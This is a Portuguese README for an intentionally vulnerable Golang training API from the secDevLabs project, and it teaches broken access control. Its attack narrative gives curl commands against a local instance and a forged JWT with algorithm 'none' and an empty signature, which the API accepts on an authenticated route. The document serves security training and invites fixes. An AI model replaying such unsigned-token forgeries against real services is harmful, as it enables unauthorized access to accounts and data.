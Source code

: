 

# Camp Crystal Lake API

[Acessar conteudo em Inglês](README.md)

<p align="center">
    <img src="images/camplake.png" width="400" height="400"/>
</p>

A API do Camp Crystal Lake é um aplicativo web simples de Golang que contém um exemplo de vulnerabilidade de controle de acesso quebrado e seu principal objetivo é descrever como um usuário mal-intencionado pode explorá-lo.

## Index

- [Definição](#quebra-de-controle-de-acesso)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluçoes)
- [Contribuição](#Contribuições)

## O que é quebra de controle de acesso?

O controle de acesso impõe a política de forma que os usuários não possam agir fora de suas permissões pretendidas. As falhas geralmente levam à divulgação, modificação ou destruição de informações não autorizada dos dados ou à execução de uma função fora dos limites de acesso do usuário.

Os invasores podem explorar essas falhas para acessar funcionalidades e/ou dados não autorizados, como acesso a contas de outros usuários, visualizar arquivos confidenciais, modificar dados de outros usuários, alterar direitos de acesso, etc.

O principal objetivo deste aplicativo é discutir como as vulnerabilidades do **Quebra de Controle de Acesso** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações pull no **SecDevLabs** sobre como eles corrigiriam essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório o [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a1/camp-lake-api
```

```sh
make install
```

Depois é só visitar [localhost:20001][App] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esses passo a passo:

- Registrar um usuário;
- Realizar um login;
- Criar um novo post.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A validação incorreta do JWT, permite que usuários mal-intencionados criem tokens falsos e abusem da não validação do JWT. Um exemplo da não validação do JWT é não validar o algoritmo de assinatura usado.

Para entender melhor como a API funciona, criaremos um novo usuário.

Para este exemplo, criamos o usuário com as seguintes credenciais de login - `campLakeAdmin:campLake2021`

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/register  
```

<p align="center">
    <img src="images/attack_1.png"/>
</p>

Com o usuário criado, faremos login no aplicativo com suas credenciais para obter o token JWT. Por se tratar de um aplicativo de teste, o token JWT é devolvido ao usuário assim que ele efetua o login.

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/login
```

<p align="center">
    <img src="images/attack_2.png"/>
</p>

<p align="center">
    <img src="images/attack_4.png"/>
</p>

De posse do token JWT, podemos criar um novo post na API, fazendo uma requisição POST diretamente para a rota autenticada `newPost`.

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNhbXBMYWtlQWRtaW4iLCJleHAiOjE2MzMzODI5MzR9.aW4BTVuXaozSbF6EAJfRNsApRA_1hfk2OhaLAo250Uo' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_3.png"/>
</p>

### 🔥

Porém, a API não verifica a assinatura utilizada pelo token JWT, qualquer usuário malicioso pode criar um token falso, conforme mostra a imagem:

<p align="center">
    <img src="images/attack_5.png"/>
</p>

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6Imphc29uVm9vcmhlc3MiLCJleHAiOjE2MzMzODM1ODZ9.' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_6.png"/>
</p>


## Proteger esse aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

* Usar tokens falsos sem uma assinatura válida.
* Alterar outros usuários por meio da manipulação do JWT.

## PR Soluções

[Alerta de spoiler  🚨 ] Para entender como essa vulnerabilidade pode ser mitigada, confira [these pull requests]()!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) para orientações sobre como proceder !🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api
